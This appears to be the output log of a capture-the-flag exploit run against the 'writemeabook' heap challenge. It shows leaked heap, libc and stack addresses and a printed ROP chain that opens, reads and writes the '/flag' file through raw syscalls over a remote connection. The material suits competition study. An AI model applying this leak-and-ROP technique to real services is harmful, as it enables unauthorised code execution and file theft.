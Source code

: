 ```
[*] '/home/nasm/Documents/pwn/greycat/writemeabook/dist/libc.so.6'                            
    Arch:     amd64-64-little                                                                                   
    RELRO:    Partial RELRO                                                                                                                
    Stack:    Canary found                                                                                                                   
    NX:       NX enabled                                                                                                                        
    PIE:      PIE enabled                                                                                                                         
[*] '/home/nasm/Documents/pwn/greycat/writemeabook/dist/ld-linux-x86-64.so.2' 
    Arch:     amd64-64-little                                                                        
    RELRO:    Partial RELRO                                                                                                                
    Stack:    No canary found                                                                                                                
    NX:       NX enabled                                                                                                                     
    PIE:      PIE enabled                                                                                                                         
[+] Opening connection to 34.124.157.94 on port 12346: Done                                                                               
[+] heap: 0x81a000                                                                                          
[*] Encrypted fp: 0x40484d
[+] libc: 0x7f162182f000                                                                                                                           
[+] environ: 0x7ffe60582c98
[+] stackframe_rewrite: 0x7ffe60582b48
[*] Loaded 218 cached gadgets for '/home/nasm/Documents/pwn/greycat/writemeabook/dist/libc.so.6'
0x7ffe60582b48:   0x7f1621874eb0 pop rax; ret                     
0x7ffe60582b50:              0x2 SYS_open
0x7ffe60582b58:   0x7f162185ae51 pop rsi; ret
0x7ffe60582b60:              0x0 O_RDONLY
0x7ffe60582b68:   0x7f16218593e5 pop rdi; ret
0x7ffe60582b70:   0x7ffe60582c28 (+0xb8)
0x7ffe60582b78:   0x7f16218c0396 syscall; ret
0x7ffe60582b80:   0x7f16218bf528 pop rax; pop rdx; pop rbx; ret
0x7ffe60582b88:              0x0 SYS_read
0x7ffe60582b90:            0x100
0x7ffe60582b98:      b'uaaavaaa' <pad rbx>
0x7ffe60582ba0:   0x7f162185ae51 pop rsi; ret
0x7ffe60582ba8:         0x81a000
0x7ffe60582bb0:   0x7f16218593e5 pop rdi; ret
0x7ffe60582bb8:              0x3
0x7ffe60582bc0:   0x7f16218c0396 syscall; ret
0x7ffe60582bc8:   0x7f16218bf528 pop rax; pop rdx; pop rbx; ret
0x7ffe60582bd0:              0x1 SYS_write
0x7ffe60582bd8:            0x100
0x7ffe60582be0:      b'naaboaab' <pad rbx>
0x7ffe60582be8:   0x7f162185ae51 pop rsi; ret
0x7ffe60582bf0:         0x81a000
0x7ffe60582bf8:   0x7f16218593e5 pop rdi; ret
0x7ffe60582c00:              0x1
0x7ffe60582c08:   0x7f16218c0396 syscall; ret
0x7ffe60582c10:   0x7f16218593e5 pop rdi; ret
0x7ffe60582c18:           0x1337 [arg0] rdi = 4919
0x7ffe60582c20:   0x7f16218745f0 exit
0x7ffe60582c28:     b'/flag\x00' b'/flag\x00'
0xde
[*] Switching to interactive mode
```